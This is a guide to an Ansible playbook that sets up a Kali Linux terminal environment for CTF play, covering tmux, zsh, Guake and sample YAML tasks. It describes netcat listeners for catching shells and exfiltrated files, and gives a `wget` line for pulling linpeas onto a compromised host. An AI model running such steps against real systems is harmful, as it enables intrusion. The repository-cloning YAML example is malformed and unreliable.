




# Kali - Ansible - Build
Building your standard Kali environment using Ansible

## Introduction

### TLDR

Run ansible, get all packages, repositories and configurations required to make the console pretty. Also get a script to load tmux with a nice template for playing CTFs. 

Here is a quick preview of what it looks like. I did a quick speedrun of Legacy from HackTheBox to show some of the capabilities. 

[](https://youtu.be/vOhD8DcZgmA)

### Summary

The purpose of this guide is to share with you my automated Kali build. Anyone who has used Kali for some time has no doubt broken it multiple times and been faced with the prospect of having to rebuild a machine that you have spent countless hours perfecting. Many people utilise Virtual Machines and snapshots to be able to have a **known good** build that they can simply clone. I have also used this approach in the past however updating to the latest build can become arduous and can occasionally break things.  So to simplify the process you can use automation then if you add packages / repositories / download files later it's relatively straight forward to add these items into an Ansible template especially when you have some examples to work from. 

### Features

**Guake** - A top-down terminal inspired by the famous terminal used in Quake. This has been modified with a custom theme which turns off transparency (to make screenshots less distracting), set's the default key combination to be `CTRL` + `Space` and configures it to use the Dracula theme. 

**Powerlevel10k** - Powerlevel10k is a theme for Zsh. It emphasizes speed, flexibility and out-of-the-box experience. Basically it just makes your terminal look pretty. There is a whole bunch of plugins and customisations you can do with it but we'll keep in pretty simple. We'll basically just setup the Dracula theme and turn on the git plugin. 

**Tmux** - A terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal. Although installed by default in Kali we can improve the standard configuration substantially. 

* Custom Configuration
  * Changes the special key to be `a` it's easier to hit a key on the middle row of the keyboard quickly and the special key is used all the time. As a nice side effect this actually allows you to use nested tmux sessions without any conflict. 
  * Sets the base index of windows to 1 instead of 0.  I find it makes switching windows easier. 
  * Installs the following plugins - tpm, tmux-sensible, Dracula theme, tmux-resurrect, tmux-continuum.
  * Updated Status bar which shows the VPN IP Address, CPU %, Used memory, Extended date and time, current location and temperature. 

### **Custom Scripts & Configurations**

* **ctf** - Included is a custom script I wrote specifically for playing CTFs. It starts Tmux, then configures a basic layout including separate tabs for Enumeration, Exploits, Metasploit, Shells & Services. This script also sets the variables `$ip` (The remote host) & `$lhost` (The tun0 or ppp0 ip address) .
  * **Enumeration** - nmap / gobuster / autorecon scans.
  * **Exploitation** - For running custom exploit scripts or attempting manual exploitation. 
  * **Metasploit** -  The metasploit tab runs the msfconsole command however it sets RHOST / RHOSTS / LHOST at a global level so these options usually are pre-configured in all modules. 
  * **Shells** - The shells tab runs a netcat listener on ports 53 & 443, so this is already running and waiting for shells. It also runs a listener on port 235 which will automatically write to a file, useful if you need to exfiltrate a file. 
  * **Services** - The services tab runs a web server on port 80 in the /home/kali/share folder. If you keep all of your privesc scripts and files in this location then you simply run `wget 10.10.1.1\linpeas.sh` from a compromised host to download `linpeas.sh` for instance. The services tab also runs an SMB server in the same /home/kali/share directory because hey it's good to have options. 
* **ipaddress.sh** - My quick and dirty script to find the local tun0 or ppp0 ip address, this gets passed to the `ctf.sh` script where it is set as the `$lhost` variable in all panes and is passed into metasploit as a global variable. 
* **.zshrc** (ZSH configuration file)
  * Aliases  (Because typing long commands repeatedly sucks let the robot do it)
    * **cb** (e.g. `cb $ip` copies the remote IP address to the clipboard, can also be used via the `|` character. Taken from https://madebynathan.com/2011/10/04/a-nicer-way-to-use-xclip/)
    * **cbf** (e.g. `cbf /etc/passwd` would copy the `/etc/passwd` file to the clipboard.)
    * **cbssh** (copies `~/.ssh/id_rsa.pub` to the clipboard)
    * **cbhs** (copies the most recent command in the history file)
    * **rs** (e.g. `rs $ip` Uses the containerised version of Rustscan to very quickly scan an IP address. This is usually the first command I run)

## Pre-requisites

### Kali

A base installation of Kali Linux. For this guide I downloaded the latest virtual machine from https://www.kali.org/get-kali/#kali-virtual-machines. You can also use an ISO if you're still a mouse enthusiast and like clicking things but we are trying to break that habit, as a colleague once said to me "The robot works for us, we don't work for the robot". I used the virtual machine https://cdimage.kali.org/kali-2022.4/kali-linux-2022.4-vmware-amd64.7z and imported it into VMware Workstation 15 Pro version 15.5.0 build-14665864. 

### Virtual Machine Setup

1. Extract the file `kali-linux-2022.4-vmware-amd64.7z`.
2. In VMWare select `File` -> `Scan for Virtual Machines...`.
3. Select the directory where the file `kali-linux-2022.4-vmware-amd64.7z` was extracted. 
4. Select Finish
5. Modify the VM settings as required (adjust CPU & Memory to suit hardware). 
6. Right click on the newly imported virtual machine and select `Power` -> `Start Up Guest`
7. Once the machine has booted. Open a terminal and update packages. `sudo apt update; sudo apt upgrade -y`.

## Guide

### Installation

1. Install Ansible `sudo apt install ansible -y`

<figure><figcaption></figcaption></figure>

2. Clone the repository `git clone https://github.com/michael-cheney1/Kali-DevOps-Build.git`


3. Run Ansible configuration file `ansible-playbook Kali-DevOps-Build/setup.yaml`




4. Push `CTRL + Space` to initiate the guake console. Then `tmux`. 



5. Once tmux has loaded we need to have it install some plugins. 



6. Hit the special key (`CTRL + A`) then capital i (`SHIFT + i`).



7. Once this has been completed hit `ESCAPE` to continue. 

### Using ctf script


## Customisation

OK so you have an automated Kali build but it's not exactly what you want, here is how you can update / improve it to suit your needs. The best source of information for Ansible is their online documentation https://docs.ansible.com/. If you're lazy you might get away with copy/pasting some of the examples below and modifying them to suit. 

### Copying Files

The below command shows the example of copying the `.zshrc` file from the cloned repository into the user profile location and setting the permissions and setting the correct owner & group for the file. You can copy & paste this section into the `setup.yaml` file and modify it to copy additional files if required. The comments have been added to the code below to assist in modifying the below template. Once you have modified it, it's probably best to remove the comments (Everything from the `#` to the end of the line).

```yaml
  - name: Copy a ZSH profile # Name of the Ansible task which is output to the command line. 
    ansible.builtin.copy: # Don't change this line. 
      src: /home/kali/Kali_Build/config/.zshrc # Source on the local file system. 
      dest: /home/kali/.zshrc # Desination on the local file system.
      owner: kali # Set the owner.
      group: kali # Set the group.
      mode: '0644' # Set the permissions on the destination file.
```

### Cloning Repositories

The below example taken from `setup.yaml` shows an example of cloning a repository. 

```yaml
  - name: Clone tmux-plugin tpm github repository # Name of the Ansible task which is output to the command line. 
    ansible.builtin.copy: # Don't change this line. 
    git: # Don't change this line. 
      repo: https://github.com/tmux-plugins/tpm # Source repository.
      dest: /home/kali/.tmux/plugins/tpm # Destination on the local file system.
      clone: yes # Set this to yes to clone
      update: yes # Set this to update to have it update the repository if it already exists.
```

### Creating Directories

The below example shows how to create a directory for the scripts. 

```yaml
  - name: Create directory for scripts # Name of the Ansible task which is output to the command line. 
    file: # Don't change this line. 
      path: /home/kali/scripts # Set the path to the directory that you want to create.
      state: directory # Don't change this line. 
```

### Installing Packages

All packages are installed by the `setup.yaml` Ansible file. The below excerpt is to install guake. This is the equivalent on Kali of running the command `sudo apt install guake`. So if you want to remove packages just remove the section, or if you want additional packages just edit the `setup.yaml` file and copy the 4 lines show below and edit the 2 name fields. 

```yaml
name: Install guake #Name of the Ansible task which is output to the command line. 
package: # Don't change this line. 
  name: guake # Name of the package as it appears in the repository.
  state: present # Set the state of the package. Leave it as this if you want it installed.
```


## References

A big thanks to the following people for taking the time to document and share their work. 

**André Brandão** - https://andrebrandao.me/articles/terminal-setup-with-zsh-tmux-dracula-theme/

**Cassidy Scheffer** - https://cassidy.codes/blog/2019-08-03-tmux-colour-theme/

**Ham Vocke** - https://www.hamvocke.com/blog/a-guide-to-customizing-your-tmux-conf/

**Nathan Broadbent** - https://madebynathan.com/2011/10/04/a-nicer-way-to-use-xclip/


And the following projects for being awesome. 

http://guake-project.org/index.html

https://github.com/romkatv/powerlevel10k

https://github.com/tmux/tmux


